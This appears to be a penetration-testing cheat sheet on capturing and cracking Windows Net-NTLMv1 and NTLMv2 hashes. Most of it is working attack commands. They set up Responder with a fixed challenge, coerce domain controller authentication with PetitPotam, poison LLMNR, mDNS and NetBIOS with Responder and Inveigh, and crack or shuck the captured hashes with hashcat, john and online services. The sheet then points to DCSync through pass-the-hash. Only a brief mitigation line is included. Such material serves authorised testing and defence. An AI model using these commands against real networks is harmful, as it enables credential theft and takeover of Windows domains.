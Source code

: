 # Hash - Capture and Cracking

## LmCompatibilityLevel

LmCompatibilityLevel is a Windows security setting that determines the level of authentication protocol used between computers. It specifies how Windows handles NTLM and LAN Manager (LM) authentication protocols, impacting how passwords are stored and how authentication requests are processed. The level can range from 0 to 5, with higher levels generally providing more secure authentication methods.

```ps1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
```

* **Level 0** - Send LM and NTLM response; never use NTLM 2 session security. Clients use LM and NTLM authentication, and never use NTLM 2 session security; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 1** - Use NTLM 2 session security if negotiated. Clients use LM and NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 2** - Send NTLM response only. Clients use only NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 3** - Send NTLM 2 response only. Clients use NTLM 2 authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 4** - Domain controllers refuse LM responses. Clients use NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers refuse LM authentication (that is, they accept NTLM and NTLM 2).
* **Level 5** - Domain controllers refuse LM and NTLM responses (accept only NTLM 2). Clients use NTLM 2 authentication, use NTLM 2 session security if the server supports it; domain controllers refuse NTLM and LM authentication (they accept only NTLM 2).A client computer can only use one protocol in talking to all servers. You cannot configure it, for example, to use NTLM v2 to connect to Windows 2000-based servers and then to use NTLM to connect to other servers. This is by design.

## Capturing Net-NTLMv1/NTLMv1 hashes

> Net-NTLMv1 (NTLMv1) authentication tokens are used for network authentication. They are derived from a challenge/response DES-based algorithm with the user's NT-hash as symetric keys.

:information_source: Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:

* `LmCompatibilityLevel = 0x1`: Send LM and NTLM response

**Exploitation**:

* Capturing using [lgandx/Responder](https://github.com/lgandx/Responder): Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge

    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```

* Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
* Force a callback:

    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```

## Cracking Net-NTLMv1/NTLMv1 hashes

* If you got some `NetNTLMv1 tokens`, you can try to **shuck** them online via [shuck.sh](https://shuck.sh/) or locally/on-premise via [ShuckNT](https://github.com/yanncam/ShuckNT/) to get NT-hashes corresponding from [HIBP database](https://haveibeenpwned.com/Passwords). If the NT-hash has previously leaked, the NetNTLMv1 is converted to NT-hash ([pass-the-hash](./hash-pass-the-hash.md) ready) instantly. The [shucking process](https://www.youtube.com/watch?v=OQD3qDYMyYQ) works for any NetNTLMv1 with or without ESS/SSP (challenge != `1122334455667788`) but mainly for user account (plaintext previsouly leaked).

    ```ps1
    # Submit NetNTLMv1 online to https://shuck.sh/get-shucking.php
    # Or shuck them on-premise via ShuckNT script:
    $ php shucknt.php -f tokens-samples.txt -w pwned-passwords-ntlm-reversed-ordered-by-hash-v8.bin

    [...]
    10 hashes-challenges analyzed in 3 seconds, with 8 NT-Hash instantly broken for pass-the-hash and 1 that can be broken via crack.sh for free.
    [INPUT] ycam::ad:DEADC0DEDEADC0DE00000000000000000000000000000000:70C249F75FB6D2C0AC2C2D3808386CCAB1514A2095C582ED:1122334455667788
    [NTHASH-SHUCKED] 93B3C62269D55DB9CA660BBB91E2BD0B
    ```

* If you got some `NetNTLMv1 tokens`, you can also try to crack them via [crack.sh](https://crack.sh/) (cloud service when available, more time and potentially chargeable). For this you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/). The converter of [shuck.sh](https://shuck.sh/) can be used to format easily.

    ```ps1
    # When there is no-ESS/SSP and the challenge is set to 1122334455667788, it's free (0$):
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

    # When there is ESS/SSP or challenge != 1122334455667788, it's chargeable from $20-$200:
    username::hostname:lmresponse+0padding:ntresponse:challenge -> $NETNTLM$challenge$ntresponse
    $NETNTLM$DEADC0DEDEADC0DE$507E2A2131F4AF4A299D8845DE296F122CA076D49A80476E
    ```

* Finaly, if no [shuck.sh](https://shuck.sh/) nor [crack.sh](https://crack.sh/) can be used, you can try to break NetNTLMv1 with Hashcat / John The Ripper. Use [Net-NTLMv1 Rainbow Tables](https://tables.blurbdust.pw/) to speed up the plain text recovery.

    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt # for NetNTLMv1(-ESS/SSP) to plaintext (for user account)
    hashcat -m 27000 -a 0 hash.txt nthash-wordlist.txt # for NetNTLMv1(-ESS/SSP) to NT-hash (for user and computer account, depending on nthash-wordlist quality)
    hashcat -m 14000 -a 3 inputs.txt --hex-charset -1 /usr/share/hashcat/charsets/DES_full.hcchr ?1?1?1?1?1?1?1?1 # for NetNTLMv1(-ESS/SSP) to DES-keys (KPA-attack) of user/computer account with 100% success rate, then regenerate NT-hash with these DES-keys on https://shuck.sh/converter.php.
    ```

* Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NetNTLMv1 with ESS / SSP (Extended Session Security / Security Support Provider) changes the final challenge by adding a new alea (!= `1122334455667788`, so chargeable on [crack.sh](https://crack.sh/)).

:warning: NetNTLMv1 format is `login::domain:lmresp:ntresp:clientChall`. If the `lmresp` contains a **0's-padding** this means that the token is protected by **ESS/SSP**.

:warning: NetNTLMv1 final challenge is the Responder's challenge itself (`1122334455667788`) when there is no ESS/SSP. If ESS/SSP is enabled, the final challenge is the first 8 bytes of the MD5 hash from the concatenation of the client challenge and server challenge. The details of the algorithmic generation of a NetNTLMv1 are illustrated on the [shuck.sh Generator](https://shuck.sh/generator.php) and detailed in [MISCMag#128](https://connect.ed-diamond.com/misc/misc-128/shuck-hash-before-trying-to-crack-it).

:warning: If you get some tokens from other tools ([OpenSecurityResearch/hostapd-wpe](https://github.com/OpenSecurityResearch/hostapd-wpe) or [moxie0/chapcrack](https://github.com/moxie0/chapcrack)) in other formats, like tokens starting with the prefix `$MSCHAPv2$`, `$NETNTLM$` or `$99$`, they correspond to a classic NetNTLMv1 and can be converted from one format to another [here](https://shuck.sh/converter.php).

**Mitigations**:

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

## Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

* [lgandx/Responder](https://github.com/lgandx/Responder)

    ```powershell
    sudo ./Responder.py -I eth0 -wfrd -P -v
    ```

* [Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

    ```powershell
    .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
    ```

* [EmpireProject/Invoke-Inveigh.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)

    ```powershell
    Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
    ```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## References

* [NTLMv1_Downgrade.md - S3cur3Th1sSh1t - 09/07/2021](https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb)
* [Practical Attacks against NTLMv1 - Esteban Rodriguez - September 15, 2022](https://trustedsec.com/blog/practical-attacks-against-ntlmv1)
* [Attacking LM/NTLMv1 Challenge/Response Authentication - defence in depth - April 21, 2011](http://www.defenceindepth.net/2011/04/attacking-lmntlmv1-challengeresponse_21.html)
* [CRACKING NETLM/NETNTLMV1 AUTHENTICATION - crack.sh](https://crack.sh/netntlm/)
* [NTLMv1 to NTLM Reversing - evilmog - 03-03-2020](https://hashcat.net/forum/thread-9009-post-47806.html)
